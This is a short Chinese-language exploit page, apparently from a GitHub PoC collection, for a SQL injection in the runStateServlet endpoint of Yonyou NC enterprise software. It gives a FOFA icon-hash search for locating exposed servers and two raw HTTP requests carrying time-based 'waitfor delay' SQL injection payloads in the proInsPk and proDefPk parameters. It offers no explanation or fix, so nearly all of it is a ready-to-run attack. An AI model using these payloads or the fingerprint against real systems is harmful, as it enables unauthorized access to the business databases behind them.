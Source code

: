 ## 用友NC-runStateServlet接口存在SQL注入漏洞


## fofa
```
icon_hash="1085941792"
```


## poc
```
GET /portal/pt/servlet/runStateServlet/doPost?pageId=login&proInsPk=1'waitfor+delay+'0:0:6'-- HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19

```


## poc2
```
GET /portal/pt/servlet/runStateServlet/doPost?pageId=login&proDefPk=1'waitfor+delay+'0:0:6'-- HTTP/1.1
Host: 192.168.63.129:8088
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.116 Safari/537.36
Content-Length: 19
```

![image](https://github.com/wy876/POC/assets/139549762/fe20943d-db7b-4a6e-85c1-b259e410f0ac)
